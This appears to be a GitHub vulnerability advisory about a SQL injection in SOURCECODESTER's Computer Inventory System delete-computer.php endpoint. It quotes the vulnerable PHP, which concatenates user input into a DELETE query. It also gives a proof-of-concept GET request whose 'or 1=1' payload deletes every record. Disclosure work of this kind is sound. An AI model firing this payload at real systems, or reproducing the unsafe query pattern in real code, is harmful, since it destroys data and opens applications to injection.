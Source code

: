 # SOURCECODESTER / Computer Inventory System - delete-computer.php SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17165/computer-inventory-system-using-php-and-mysql-source-code.html

## Affected Component
> /endpoint/delete-computer.php

## Code
```php
        $query = "DELETE FROM tbl_computer WHERE tbl_computer_id = '$computer'";

        $stmt = $conn->prepare($query);

        $query_execute = $stmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /endpoint/delete-computer.php?computer=1'+or+1%3d1+%23 HTTP/1.1
Host: 
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/208c7f2f-c5c3-46e6-a96d-2f33ef67a6a1)

